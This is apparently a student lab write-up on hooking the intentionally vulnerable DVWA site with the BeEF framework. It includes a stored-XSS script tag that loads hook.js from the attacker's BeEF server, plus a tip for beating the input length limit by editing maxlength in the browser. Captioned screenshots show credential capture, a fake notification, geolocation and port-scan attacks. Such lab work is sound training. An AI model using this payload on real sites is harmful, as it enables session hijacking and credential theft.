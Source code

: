 ## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

    ![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

![pic](hook-3.PNG) 


* Victim entered the following:

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

### 3. From the pictures above you can see that the attack was SUCCESSFULL

**Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

